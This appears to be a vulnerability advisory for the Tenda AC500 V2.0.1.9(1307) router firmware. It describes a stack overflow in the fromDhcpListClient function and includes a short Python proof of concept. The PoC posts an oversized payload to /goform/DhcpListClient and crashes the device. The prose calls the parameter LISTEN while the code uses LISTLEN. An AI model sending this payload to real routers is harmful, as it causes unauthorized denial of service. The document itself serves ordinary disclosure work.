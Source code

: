 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail--2470.html

## Affected version

AC500 V2.0.1.9(1307)

## Vulnerability details

The Tenda AC500 V2.0.1.9(1307) firmware has a stack overflow vulnerability in the `fromDhcpListClient` function. We can set `LISTEN=1` and the program will enter line 30 and 33, which leads to a stack overflow vulnerability. Since the overflow overrides the `LISTEN` pointer variable, the `atoi` function will crash the program, causing a DOS attack in the second time looping.

![image-20240320012458952](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320012458952.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/DhcpListClient"
payload = b"a"*2000

data = {"LISTLEN":1,"page":1,"list1": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240409102010313](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409102010313.png)
